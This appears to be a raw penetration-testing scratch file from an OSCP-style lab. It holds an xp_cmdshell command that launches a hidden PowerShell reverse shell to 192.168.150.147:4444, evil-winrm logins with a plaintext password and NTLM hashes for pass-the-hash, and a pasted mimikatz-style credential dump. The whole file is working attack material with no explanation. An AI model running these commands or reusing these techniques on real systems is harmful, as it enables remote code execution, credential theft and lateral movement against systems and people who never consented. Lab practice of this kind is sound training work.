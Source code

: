 ```c

EXEC xp_cmdshell 'powershell -NoP -NonI -W Hidden -Exec Bypass -Command "New-Object System.Net.Sockets.TCPClient(''192.168.150.147'',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + ''PS '' + (pwd).Path + ''> ''; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"'


// C:\users\support\admintool.exe hghgib6vHT3bVWf cmd
// C:\users\support\admintool.exe cmd
// shutdown /s /t 7





// DC
// 10.10.110.146

// Admin/AppData/Roaming/Microsoft/Windows/Powershell/PSReadLine/ConsoleHost_history.txt
// hghgib6vHT3bVWF

// evil-winrm -i 192.168.150.147 -u eric.wallows -p EricLikesRunning800

// evil-winrm -i 10.10.110.148 -u OSCP\\celia.almeda -H e728ecbadfb02f51ce8eed753f3ff3fd

        evil-winrm -i 10.10.110.148 -u OSCP\\eric.wallows -H a1f18f9362b5485cca07aedda6792454

        evil-winrm -i 10.10.110.148 -u Mary.Williams -H 9a3121977ee93af56ebd0ef4f527a35e
```

Authentication Id : 0 ; 1465046 (00000000:00165ad6)
Session           : NetworkCleartext from 0
User Name         : eric.wallows
Domain            : OSCP
Logon Server      : DC01
Logon Time        : 6/16/2025 12:29:19 PM
SID               : S-1-5-21-2610934713-1581164095-2706428072-7102
        msv :
         [00000003] Primary
         * Username : eric.wallows
         * Domain   : OSCP
         * NTLM     : a1f18f9362b5485cca07aedda6792454
         * SHA1     : c63e4068033a4397cb0abbadb716934c3c2c52f1
         * DPAPI    : c40340b319c685ae9c962e8d77a23d2e
        tspkg :
        wdigest :
         * Username : eric.wallows
         * Domain   : OSCP
         * Password : (null)
        kerberos :
         * Username : eric.wallows
         * Domain   : OSCP.EXAM
         * Password : (null)
        ssp :
        credman :
        cloudap :
